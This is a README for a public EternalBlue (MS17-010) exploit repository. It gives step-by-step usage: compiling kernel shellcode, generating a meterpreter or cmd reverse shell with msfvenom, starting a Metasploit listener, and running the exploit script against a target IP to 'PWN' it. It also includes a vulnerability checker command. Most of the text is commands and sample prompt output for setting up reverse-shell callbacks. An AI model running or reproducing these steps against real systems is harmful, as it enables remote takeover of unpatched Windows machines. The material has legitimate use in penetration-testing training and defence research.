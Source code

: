 # MS17-010 (ETERNAL BLUE) Exploit Code

This is some no-bs public exploit code that generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit. Your options for auto shell generation are to generate shellcode with msfvenom that has meterpreter (i.e. with metasploit) or to generate a normal windows cmd shell (i.e. without metasploit). Alternatively you can elect to brew in your own shellcode.

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternalblue_checker.py <TARGET-IP>`

## VIDEO TUTORIAL:
https://www.youtube.com/watch?v=p9OnxS1oDc0

## USAGE:
Navigate to the `shellcode` directory in the repo:

run `./shell_prep.sh`

Follow the prompts, for example:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
<YOUR-IP>
LPORT you want x64 to listen on:
<SOME PORT>
LPORT you want x86 to listen on:
<SOME OTHER PORT>
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
```

After the script finishes there will be a shellcode binary named `sc_all.bin` in the shellcode directory


Next, navigate to the main repo directory:

run `listener_prep.sh`

Follow the propmts, for example:
```
 /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

LHOST for reverse connection:
<YOUR-IP>
LPORT for x64 reverse connection:
<SOME PORT>
LPORT for x86 reverse connection:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell:
0
Starting listener...
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

run `python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin>`

This has only been tested on Windows 7/Server 2008, however the exploit included in this repo also includes the Windows 8 version and *should* work.


The original exploit code that this repo pulls from is located here: https://github.com/worawit/MS17-010
